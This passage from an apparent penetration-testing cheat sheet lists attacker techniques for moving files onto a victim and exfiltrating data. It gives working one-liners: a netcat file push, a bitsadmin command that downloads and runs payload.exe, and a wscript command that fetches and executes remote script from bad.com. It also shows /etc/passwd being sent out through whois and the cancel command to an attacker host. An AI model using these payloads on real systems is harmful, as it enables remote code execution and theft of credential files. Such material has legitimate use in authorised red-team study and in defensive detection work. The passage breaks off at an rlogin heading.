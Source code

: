 ```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

​# Victim
nc $ATTACKER 4444 > file.exe
```

#### HTTP: Windows "debug.exe" Method <a id="http-windows-debug-exe-method"></a>

```bash
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt

# 2. Paste nc.txt into Windows Shell.
```

#### HTTP: Windows BitsAdmin <a id="http-windows-bitsadmin"></a>

```bash
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

#### Wscript Script Code Download & Execution <a id="wscript-script-code-download-and-execution"></a>

{% code-tabs %}
{% code-tabs-item title="cmd code.js" %}
```bash
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Whois Data Exfiltration <a id="whois-data-exfiltration"></a>

```bash
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d

# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

### Cancel Data Exfiltration <a id="cancel-data-exfiltration"></a>

```bash
cancel -u "$(cat /etc/passwd)" -h ip:port
```

### rlogin Data Exfiltration <a id="rlogin-data-exfiltration"></a>
